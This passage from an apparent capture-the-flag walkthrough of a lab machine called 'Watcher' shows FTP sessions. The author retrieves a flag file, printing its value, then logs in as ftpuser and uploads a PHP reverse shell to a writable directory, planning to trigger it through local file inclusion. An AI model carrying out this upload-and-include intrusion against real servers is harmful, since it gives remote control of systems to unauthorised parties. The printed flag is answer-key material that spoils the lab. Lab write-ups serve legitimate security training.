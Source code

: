 ~~~
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 ..
drwxr-xr-x    2 1001     1001         4096 Dec 03 03:30 files
-rw-r--r--    1 0        0              21 Dec 03 01:58 flag_2.txt
226 Directory send OK.
ftp> get flag_2.txt -
remote: flag_2.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).
FLAG{ftp_you_and_me}
226 Transfer complete.
21 bytes received in 0.00 secs (6.5772 kB/s)
~~~

Flag #2: `FLAG{ftp_you_and_me}`

# Flag 3

*Hint: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2*

From the previous secret, we are told that files are saved to `/home/ftpuser/ftp/files`, and we know that the FTP service allows file uploads. Let's upload a PHP reverse shell:

~~~
kali@kali:/data/Watcher/files$ ftp 10.10.85.119
Connected to 10.10.85.119.
220 (vsFTPd 3.0.3)
Name (10.10.85.119:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd files
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03 03:30 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 ..
226 Directory send OK.
ftp> put rev.php
local: rev.php remote: rev.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (59.5179 MB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Apr 28 12:06 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 ..
-rw-r--r--    1 1001     1001         5492 Apr 28 12:06 rev.php
226 Directory send OK.
ftp> pwd
257 "/files" is the current directory
ftp> exit
221 Goodbye.
~~~
